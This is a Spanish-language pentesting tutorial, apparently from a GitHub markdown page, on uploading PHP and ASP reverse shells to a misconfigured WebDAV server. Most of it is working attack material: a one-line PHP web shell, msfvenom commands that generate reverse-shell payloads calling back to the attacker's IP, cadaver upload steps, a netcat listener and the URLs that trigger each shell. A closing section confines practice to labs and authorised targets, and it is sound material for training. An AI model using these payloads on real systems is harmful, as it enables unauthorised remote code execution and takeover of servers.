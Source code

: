 
---
## Cómo crear una Reverse Shell en PHP y ASP

Cuando descubrimos que un servidor WebDAV permite la carga de archivos con extensiones ejecutables, como `.php` o `.asp`, podemos aprovechar esta configuración para subir una _reverse shell_ y obtener acceso remoto al sistema.

Una _reverse shell_ es un archivo que, al ser ejecutado en el servidor, abre una conexión desde el servidor hacia nuestro equipo atacante. Esto nos permite interactuar con el sistema de la víctima desde nuestra máquina.

---

### Reverse Shell en PHP

#### 1. Crear el archivo de shell

Podemos crear un archivo llamado `shell.php` con este contenido mínimo para fines de pruebas:

```php
<?php system($_GET['cmd']); ?>
```

Este archivo nos permite ejecutar comandos pasando el parámetro `cmd` en la URL:

```
http://IP_DEL_SERVIDOR/shell.php?cmd=whoami
```

#### 2. Crear una reverse shell real

Una alternativa más potente sería usar una reverse shell interactiva generada con `msfvenom`:

```bash
msfvenom -p php/reverse_php LHOST=TU_IP LPORT=4444 -f raw > shell.php
```

> Sustituimos `TU_IP` por la dirección IP de nuestro equipo atacante.

#### 3. Subir la shell al servidor

Utilizamos `cadaver` o `curl` para subir el archivo al servidor WebDAV:

```bash
cadaver http://IP_DEL_SERVIDOR/
dav:/> put shell.php
```

#### 4. Escuchar la conexión en nuestra máquina

Ponemos un listener con `netcat`:

```bash
nc -lvnp 4444
```

#### 5. Ejecutar el archivo en el navegador

Cuando accedemos desde el navegador a:

```
http://IP_DEL_SERVIDOR/shell.php
```

La reverse shell se ejecuta y obtenemos conexión en `netcat`.

---

### Reverse Shell en ASP (para servidores Windows)

Si el servidor permite `.asp`, procedemos de forma similar.

#### 1. Crear la shell con `msfvenom`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=TU_IP LPORT=4444 -f asp > shell.asp
```

Este payload creará un archivo `shell.asp` con código que ejecuta una reverse shell en Windows.

#### 2. Subir la shell al servidor WebDAV

```bash
cadaver http://IP_DEL_SERVIDOR/
dav:/> put shell.asp
```

#### 3. Escuchar la conexión

```bash
nc -lvnp 4444
```

#### 4. Ejecutar el archivo

Desde el navegador, accedemos a:

```
http://IP_DEL_SERVIDOR/shell.asp
```

Si todo ha salido bien, se abrirá una shell de Windows en nuestro netcat.

---

## Buenas prácticas al practicar

Cuando experimentamos con shells reversas:

- **Nunca** las probamos fuera de entornos de laboratorio o sin autorización.
    
- Podemos usar máquinas virtuales con Windows/Linux vulnerables, como Metasploitable, Windows XP SP2 o Docker.
    
- Podemos usar una red interna o incluso máquinas virtuales conectadas por host-only.
    
- Siempre capturamos el tráfico con Wireshark o tcpdump para entender qué ocurre.
    

---

